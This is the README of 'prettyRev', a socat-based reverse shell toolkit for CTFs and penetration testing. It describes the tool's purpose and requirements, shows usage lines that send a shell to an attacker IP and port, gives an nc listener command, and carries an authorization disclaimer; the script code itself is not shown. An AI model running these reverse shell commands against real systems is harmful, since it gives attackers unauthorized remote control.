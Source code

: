 # prettyRev

![prettyRev Banner](https://img.shields.io/badge/Reverse%20Shell-Pretty%20and%20Simple-blueviolet?style=for-the-badge&logo=gnu-bash)

A minimal, pretty, and effective reverse shell toolkit using `socat` for both shell and listener. Perfect for CTFs, pentesting, and quick remote access scenarios.

---

## 🚀 Purpose

**prettyRev** provides a clean and reliable way to establish reverse shells using Bash and socat. It includes:
- `revShell.sh`: Initiates a reverse shell to a remote attacker.
- `revListener.sh`: Sets up a listener to catch incoming reverse shells, and can be used to enhance the shell experience (autocompletion, arrow keys, etc.) on servers with limited command support. 

---

## 🛠️ Requirements

- [socat](http://www.dest-unreach.org/socat/)
- Bash (Linux/macOS/WSL)

Install socat (Debian/Ubuntu):
```bash
sudo apt update && sudo apt install socat
```

---

## 📦 Files

- **revShell.sh**  
  _Usage:_
  ```bash
  ./revShell.sh [Remote Attacker IP] [Remote Attacker PORT]
  ```
  _Example:_
  ```bash
  ./revShell.sh 10.10.14.1 4444
  ```

- **revListener.sh**  
  _Usage:_
  ```bash
  ./revListener.sh [Listener PORT]
  ```
  _Example:_
  ```bash
  ./revListener.sh 4444
  ```

---

## ✨ Features
- Clean output and usage instructions
- Uses `socat` for stable, interactive shells
- Minimal dependencies
- Easy to use and modify

---

## ❓ When to Use prettyRev
This tool is especially useful when the target system:
- Does **not** have Python installed
- Has Python, but `pty` cannot be imported (so you can't upgrade shells easily)
- Lacks typical tab completion or cannot use `stty` to fix the shell
- Does **not** have a fully functional `nc` (Netcat) command, or only provides a limited client (e.g., BusyBox's older versions)
- Presents other restrictions that prevent you from getting a stable, interactive shell

By using socat, prettyRev helps you get a more interactive and reliable shell in these restrictive environments.

---

## 💡 Tips
- For Windows, use WSL or a Linux VM to run these scripts.
- Make scripts executable: `chmod +x revShell.sh revListener.sh`
- Always get proper authorization before using reverse shells!
- You can also use a simple Netcat listener as an alternative:
  ```bash
  nc -lnvp [PORT]
  ```
  However, note that Netcat listeners may not provide as smooth an experience (e.g., autocompletion, arrow keys) as the provided socat-based listener.

---

## ⚠️ Disclaimer
This project is for educational and authorized penetration testing purposes only. Do **not** use it on systems you do not own or have explicit permission to test.

---

## 📚 References
- [socat documentation](http://www.dest-unreach.org/socat/doc/socat.html)
- [Reverse Shell Cheat Sheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

---

Enjoy your pretty shells! 🐚✨
